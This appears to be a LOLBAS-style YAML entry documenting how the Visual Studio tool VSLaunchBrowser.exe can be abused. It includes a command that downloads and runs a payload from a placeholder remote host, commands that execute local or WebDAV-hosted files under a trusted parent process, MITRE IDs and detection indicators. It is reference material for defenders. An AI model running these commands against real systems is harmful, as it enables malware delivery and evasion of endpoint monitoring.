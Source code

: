 ```yaml
---
Name: VSLaunchBrowser.exe
Description: Microsoft Visual Studio browser launcher tool for web applications debugging
Author: Avihay Eldad
Created: 2024-04-12
Commands:
  - Command: VSLaunchBrowser.exe .exe http://example.com/payload
    Description: Download and execute payload from remote server
    Usecase: It will download a remote file to INetCache and open it using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
  - Command: VSLaunchBrowser.exe .exe C:\Windows\System32\calc.exe
    Description: Execute payload via VSLaunchBrowser as parent process
    Usecase: It will open a local file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: VSLaunchBrowser.exe .exe \\Server\Path\file
    Description: Execute payload from WebDAV server via VSLaunchBrowser as parent process
    Usecase: It will open a remote file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\<version>\Community\Common7\IDE\VSLaunchBrowser.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\<version>\Community\Common7\IDE\VSLaunchBrowser.exe
Detection:
  - IOC: cmd.exe as sub-process of VSLaunchBrowser
  - IOC: URL on a VSLaunchBrowser command line
  - IOC: VSLaunchBrowser making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

